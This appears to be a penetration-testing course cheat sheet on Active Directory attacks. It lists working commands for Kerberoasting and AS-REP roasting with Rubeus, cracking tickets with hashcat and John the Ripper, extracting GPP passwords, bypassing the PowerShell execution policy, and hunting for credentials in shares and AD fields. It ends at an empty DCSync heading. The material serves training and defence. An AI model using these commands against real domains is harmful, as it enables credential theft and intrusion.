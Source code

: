 # Windows attacks & Defense

## Kerberoasting

| Command                                                                                  | Description                                                              |
| ---------------------------------------------------------------------------------------- | ------------------------------------------------------------------------ |
| `.\Rubeus.exe kerberoast /outfile:spn.txt`                                               | Used to perform the Kerberoast attack and save output to a file.         |
| `hashcat -m 13100 -a 0 spn.txt passwords.txt`                                            | Uses `hashcat` to crack Keberoastable TGS tickets.                       |
| `sudo john spn.txt --fork=4 --format=krb5tgs --wordlist=passwords.txt --pot=results.pot` | Uses `John the Ripper` to crack TGS tickets, and outputs to results.pot. |

## Asreproasting

| Command                                                 | Description                                                                     |
| ------------------------------------------------------- | ------------------------------------------------------------------------------- |
| `.\Rubeus.exe asreproast /outfile:asrep.txt`            | Used to perform the Asreproast attack and save the extracted tickets to a file. |
| `hashcat -m 18200 -a 0 asrep.txt passwords.txt --force` | Uses `hashcat` to crack AS-REP hashes that were saved in a file.                |

## GPP Passwords

| Command                                               | Description                                                                          |
| ----------------------------------------------------- | ------------------------------------------------------------------------------------ |
| `Import-Module .\Get-GPPPassword.ps1`                 | Used to import the `Get-GPPPassword.ps1` script into the current powershell session. |
| `Get-GPPPassword`                                     | Cmdlet to automatically parse all XML files in the Policies folder in SYSVOL.        |
| `Set-ExecutionPolicy Unrestricted -Scope CurrentUser` | Used to bypass powershell script execution policy.                                   |

## Credentials in Shares

| Command                                                                     | Description                                                                                                   |
| --------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------- |
| `Import-Module .\PowerView.ps1`                                             | Used to load the `PowerView.ps1` module into memory                                                           |
| `Invoke-ShareFinder -domain eagle.local -ExcludeStandard -CheckShareAccess` | PowerShell cmdlet used to identify shares in a domain                                                         |
| `findstr /m /s /i "eagle" *.ps1`                                            | Forces a search within the current directory + subdirectories for the .ps1 file containing the string "eagle" |

## Credentials in Object Properties

| Command                        | Description                                                                              |
| ------------------------------ | ---------------------------------------------------------------------------------------- |
| `.\SearchUser.ps1 -Terms pass` | Script to look for specific terms in the `Description` and `Info` fields of an AD object |

## DCSync
